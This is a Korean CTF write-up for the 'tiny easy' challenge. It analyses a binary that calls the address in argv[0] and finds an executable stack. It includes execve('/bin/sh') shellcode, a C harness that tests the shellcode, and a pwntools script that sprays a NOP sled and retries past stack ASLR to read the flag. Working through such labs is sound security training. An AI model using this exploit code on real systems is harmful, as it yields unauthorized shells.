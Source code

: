 ```yaml
---
sort: 6
---
```


# tiny easy

뭐 objdump로도 안뜨고 그러길래 scp를 이용하여 tiny_easy 바이너리파일을 내려받아 binary ninja에 넣어보았다.

```
_start:
08048054  pop     eax {__return_addr}
08048055  pop     edx {arg1}
08048056  mov     edx, dword [edx]
08048058  call    edx
0804805a  ??
```

위 처럼 나왔다.<br>
gdb에 넣고 0x08048054에 breakpoint넣고 분석해보니, argv[0]의 첫 4byte를 가져와서 해당부분을 주소로써 호출한다.<br><br>

```
(gdb) info proc
process 179554
warning: target file /proc/179554/cmdline contained unexpected null characters
cmdline = '/home/tiny_easy/tiny_easy'
cwd = '/home/tiny_easy'
exe = '/home/tiny_easy/tiny_easy'

(gdb) shell cat /proc/179554/maps
08048000-08049000 r-xp 00000000 103:00 23593600                          /home/tiny_easy/tiny_easy
f7797000-f779a000 r--p 00000000 00:00 0                                  [vvar]
f779a000-f779b000 r-xp 00000000 00:00 0                                  [vdso]
ffd26000-ffd47000 rwxp 00000000 00:00 0                                  [stack]
```

memory부분을 살펴보니 stack에 쓰기권한과 실행권한이 동시에 존재하는 것을 확인할 수 있다.<br>
따라서 shellcode를 stack에 넣고 동작시키기로 했다.<br>
shellcode가 정상적으로 동작하는지 확인하기 위해 아래와 같은 test 프로그램을 만들었다.<br>

```c
// test.c

#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

#define BASE ((void*)0x5555e000)


int main(int argc, char** argv)
{
        void (*fp)(void);
        void* base = NULL;
        int len = strlen(argv[1]);
        if ((base = mmap(BASE, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0)) != BASE){
                printf("mmap error\n");
                return 1;
        }

        strcpy(base, argv[1]);
        fp = base;
        fp();

        return 0;
}
```

tiny_easy가 32bit 프로그램이기 때문에 test 프로그램도 `-m32` 옵션을 이용해 32bit로 빌드하고 확인하는 모습이다.<br>

```bash
tiny_easy@pwnable:/tmp/dlfjs$ gcc -o test test.c -m32
tiny_easy@pwnable:/tmp/dlfjs$ ./test `python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80')"`
$
```

shellcode가 정상적으로 동작하는 모습이다. 그런데 stack aslr이 걸려있기 때문에 nop sled를 사용한 뒤 될 때까지 실행했다.<br>

```python
from pwn import *

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'

nop_sled = '\x90'*0x10000
target_addr = p32(0xffd46d0c)

ARGV = []
ARGV.append(target_addr)
ARGV.append(nop_sled + shellcode)

def func():
    p = process(executable='/home/tiny_easy/tiny_easy', argv=ARGV)
    p.sendline('cat /home/tiny_easy/flag')
    try:
        print(p.recvline())
    except EOFError:
        return True
    p.interactive()
    return False

while True:
    if func():
        continue
    break
```

```tip
## 알게 된 점

nop sled
```